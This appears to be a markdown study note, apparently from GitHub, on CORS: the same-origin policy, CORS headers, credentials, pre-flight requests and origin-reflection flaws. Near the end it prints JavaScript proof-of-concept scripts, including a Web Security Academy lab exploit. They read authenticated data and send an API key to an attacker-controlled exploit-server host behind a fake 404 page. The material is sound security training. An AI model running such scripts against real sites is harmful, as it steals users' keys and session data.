 -------------

### Understanding Cross Origin Sharing

-------------

- It is a browser mechanism that grants permission control to a resource outside of a domain.It grants flexibility as against Same-Origin Policy(SOP).It provides potential for cross domain attacks if poorly configured.
- CORS is not a protection against cross-origin attacks such as cross-site request forgery (CSRF).
- Same-Origin policy limits the way a website interact with resources outside its domain.The same-origin policy was defined many years ago in response to potentially malicious cross-domain interactions, such as one website stealing private data from another. It generally allows a domain to issue requests to other domains, but not to access the responses.
- A controlled relaxation of the same-origin policy is possible using cross-origin resource sharing (CORS).The cross-origin resource sharing protocol uses a suite of HTTP headers that define trusted web origins and associated properties such as whether authenticated access is permitted. These are combined in a header exchange between a browser and the cross-origin web site that it is trying to access.

------------

### CORS and Access-Control-Allow-Origin headers

------------

- Access-Control-Allow-Origin response header is included in the response from a website to a requesting website and identifies the permitting origin of the website.

------------

### Implementing simple cross-origin resource sharing

------------

- The cross-origin resource sharing (CORS) specification prescribes header content exchanged between web servers and browsers that restricts origins for web resource requests outside of the origin domain.
- For example, suppose a website with origin normal-website.com causes the following cross-domain request:
```http
GET /data HTTP/1.1
Host: robust-website.com
Origin : https://normal-website.com
```
-  The server on `robust-website.com` will return this response

```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
```

- The browser will allow access to the resource because the `Origin` header matches the `Access-Control-Allow-Origin` specified in the response.The specification of Access-Control-Allow-Origin allows for multiple origins, or the value null, or the wildcard *. However, no browser supports multiple origins and there are restrictions on the use of the wildcard *.Values allowed-:

```
null
*
```

---------------

### Handling Cross Origin request with credentials

--------------

- The default behavior of cross-origin resource requests is for requests to be passed without credentials like cookies and the Authorization header. However, the cross-domain server can permit reading of the response when credentials are passed to it by setting the CORS Access-Control-Allow-Credentials header to true. Now if the requesting website uses JavaScript to declare that it is sending cookies with the request.
- If the website uses javascript to send cookies

```http
GET /data HTTP/1.1
Host: robust-website.com
...
Origin: https://normal-website.com
Cookie: JSESSIONID=<value>
```

- And the response to the request is-:

```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Credentials: true
```

- The browser will allow the requesting website to read the response because `Access-Control-Allow-Credentials` is set to `true`.Otherwise, it will not allow the response.


--------------

### Relaxation of CORS with wildcards

-------------

- The `Access-Control-Allow-Origin` allows wildcards `*`.

```http
Access-Control-Allow-Credentials: true
```
-  Also, the use of wildcard `*` with transfer of credentials `Access-Control-Allow-Credentials: true` is disallowed as this would be dangerously insecure, exposing any authenticated content on the target site to everyone.Given these constraints, some web servers dynamically create Access-Control-Allow-Origin headers based upon the client-specified origin. This is a workaround for CORS constraints that is not secure.

-------------

### Pre-flight Requests

------------

- The pre-flight check was added to the CORS specification to protect legacy resources from the expanded request options allowed by CORS.Under certain circumstances, when a cross-domain request includes a non-standard HTTP method or headers, the cross-origin request is preceded by a request using the `OPTIONS` method, and the CORS protocol necessitates an initial check on what methods and headers are permitted prior to allowing the cross-origin request. This is called the pre-flight check.The server returns a list of allowed methods in addition to the trusted origin and the browser checks to see if the requesting website's method is allowed.
- For example, this is a pre-flight request that is seeking to use the PUT method together with a custom request header called Special-Request-Header:

```http
OPTIONS /data HTTP/1.1
Host: <some website>
...
Origin: https://normal-website.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: Special-Request-Header
```
- Probable response-:

```http
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Special-Request-Header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

- This response sets out the allowed methods (PUT, POST and OPTIONS) and permitted request headers (Special-Request-Header). In this particular case the cross-domain server also allows the sending of credentials, and the Access-Control-Max-Age header defines a maximum timeframe for caching the pre-flight response for reuse. If the request methods and headers are permitted (as they are in this example) then the browser processes the cross-origin request in the usual way. Pre-flight checks add an extra HTTP request round-trip to the cross-domain request, so they increase the browsing overhead.

------------

### Vulnerabilities on CORS

------------

### Server Side generated `Access-Control-Allow-origin` header from Client's request

------------

- Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

- Response-:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

- These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-origin requests can include cookies (Access-Control-Allow-Credentials: true) and so will be processed in-session.
- Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```
- CORS with basic origin relection-:
- CSRF POC-:

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a23005b03c79d758046a3b900ae0022.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
      var data =  JSON.parse(this.responseText);
      var api_key =  data.apikey;
	location='//exploit-0aa200f703149d1080e1a274013200d6.exploit-server.net/?key='+api_key;
};
</script>
<meta name="referrer" content="never">
<h1>404 - Page not found</h1>
The URL you are requesting is no longer available
```

- In action-:

![image](https://github.com/user-attachments/assets/4e2516f7-5789-4eab-a738-05367c6b2ec9)


------------

### Error parsing Origin Headers

-----------


-----------
